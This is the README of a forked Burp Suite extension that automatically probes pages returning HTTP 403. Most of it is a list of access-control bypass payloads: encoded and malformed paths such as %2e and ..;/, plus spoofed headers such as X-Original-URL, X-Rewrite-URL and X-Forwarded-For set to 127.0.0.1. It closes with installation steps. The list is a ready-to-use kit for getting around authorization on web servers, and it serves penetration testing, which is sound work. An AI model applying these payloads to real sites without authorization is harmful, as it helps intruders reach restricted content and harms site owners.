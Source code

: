 # 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

### This forked repository adds new payloads.
*Original*: https://github.com/sting8k/BurpSuite_403Bypasser

**Payloads: 
$1: HOSTNAME
$2: PATH**
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2anything -H "X-Original-URL: $2"
$1 -H "X-Original-URL: $1" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1"
$1 -H "X-Rewrite-URL: $1"
$1 -H "X-Rewrite-URL: $2"
$1/$2 -H "Referer: /$2"
$1/$2 -H "X-Originating-IP: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1:80"
$1/$2 -H "X-Forwarded-For: 127.0.0.1:443"
$1/$2 -H "X-Forwarded-For: http://127.0.0.1"
$1/$2 -H "X-Remote-IP: 127.0.0.1"
$1/$2 -H "X-Client-IP: 127.0.0.1"
$1/$2 -H "X-Host: 127.0.0.1"
$1/$2 -H "X-Forwarded-Host: 127.0.0.1"
$1/$2%20/
$1/%20$2%20/
$1/$2?
$1/$2???
$1/$2//
$1/$2/
$1/$2/.random
$1/$2.json
$1/$2%23
$1/$2%26
$1.//$2
$1/$2..;/
$1/$2%
$1/$2.%2e/
```

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Finish`

## Screenshot
<img src="ScreenShot.png" width="450"/>
